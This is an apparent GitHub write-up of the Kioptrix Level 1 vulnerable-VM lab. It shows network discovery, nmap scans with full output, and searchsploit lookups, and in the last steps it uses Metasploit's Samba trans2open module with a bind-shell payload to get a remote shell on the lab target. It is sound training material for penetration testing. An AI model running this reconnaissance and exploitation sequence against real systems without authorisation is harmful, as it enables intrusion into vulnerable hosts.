 # Kioptrix-Level-1

Kioptrix - 1

Name – Aritrya Paul 

My Setup : 
1) A VMware virtual machine running kali linux
2) Another VM running Kioptrix
3) Both has NAT type Network Adapter

**STEP 1** - First to check the hosts running on our IP address with the shell command : 
            
            netdiscover

![netdiscover](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/34acb7c8-6efd-44bd-9561-acd384fb4b99)

So, the IP of the host is **192.168.13.131** . 
To check it we can type the command : **enum4linux 192.168.13.131** which shows the information about the target.

![enum4linux](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/06d7cd18-05bd-40cc-ac60-3c3ee9f1b616)

**STEP 2** - I have used Nmap to run a fast/aggression scan over the network. To do so I have used the command : 

        nmap -sS -A 192.168.13.131

![nmap](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/b0a57d33-3e35-41d7-aa30-7fa7605fd588)

*-sS is for TCP SYN scan <br>
*-A Decets OS and Services

I have done a bit more recon and enumeration this time. So, I have done a more thorough scan. So, I have used the command : 

      nmap -p- -T4 -A -O -v 192.168.13.131

**The output of the above scan** : 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:07 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating ARP Ping Scan at 14:07
Scanning 192.168.13.131 [1 port]
Completed ARP Ping Scan at 14:07, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:07
Completed Parallel DNS resolution of 1 host. at 14:07, 0.02s elapsed
Initiating SYN Stealth Scan at 14:07
Scanning 192.168.13.131 [65535 ports]
Discovered open port 139/tcp on 192.168.13.131
Discovered open port 80/tcp on 192.168.13.131
Discovered open port 22/tcp on 192.168.13.131
Discovered open port 443/tcp on 192.168.13.131
Discovered open port 111/tcp on 192.168.13.131
Discovered open port 1024/tcp on 192.168.13.131
Completed SYN Stealth Scan at 14:07, 7.64s elapsed (65535 total ports)
Initiating Service scan at 14:07
Scanning 6 services on 192.168.13.131
Completed Service scan at 14:07, 11.03s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 192.168.13.131
NSE: Script scanning 192.168.13.131.
Initiating NSE at 14:07
Completed NSE at 14:08, 10.51s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.10s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Nmap scan report for 192.168.13.131
Host is up (0.00097s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-09-28T08:39:54+00:00; +1m52s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:2E:A7:98 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.036 days (since Thu Sep 28 13:15:35 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 1m51s

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.13.131

NSE: Script Post-scanning.
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.99 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)



Here, To start with HTTP/S. We have both the ports open. **Port 80** is for **http** and **port 443** for **https**. Other findings : 
1] Apache/1.3.20 (Unix)
2] mod_ssl/2.8.4
3] OpenSSL/0.9.6b

I have also got the **Samba port:139**.

I have also got **port 22: the SSH port**. Other findings : 
1] OpenSSH 2.9p2 (protocol 1.99)
2] Sshv1: Server support SSHv1

From the above output we can see that the process is running in netbios-ssn Samba but no exact version is described.


**STEP 3** - I have used searchsploit on openssh 2.9 and Apache 1.2.30 by the command : 

           searchsploit openssh 2.9

![searchsploit openssh](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/c2f51931-ab58-4c9f-839e-5e1db66208d1)

But there was many exploits but not in any specific version which is openssh 2.9 . So, this will not be the case.

Again, 

           Searchsploit Apache 1.3.20 

![searchsploit Apache](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/59640a9f-e530-476d-8fcf-cc35e311afd0)

Here, I found 2 exploits of version 1.3.20 but both are for windows. So, this will also not be the case because our target machine platform is linux based.

STEP 4 - By this I came to understand that our next exploitation will be on Samba. For this I have used Metasploit Framework. To access Metasploit in Kali Linux type :

             msfconsole
STEP 5 - Now, to see the available modules in metasploit of Samba by the command : 

             search samba 

![search samba](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/ede8a97d-2fec-4a79-882e-e2ee0e51341c)

I have used **exploit/linux/samba/trans2open** module whose rank is excellent. By typing **info** I get to know that the module requires only **RHOSTS** and **RPORT**.

I set the RHOSTS to 192.168.13.131 and the RPORT to 139 which is for the target TCP port and finally to exploit.

Next, I set the PAYLOAD to handle the session by the command : 

        set payload linux/x86/shell_bind_tcp 

By this I got access to the command shell of the target machine.









                                   








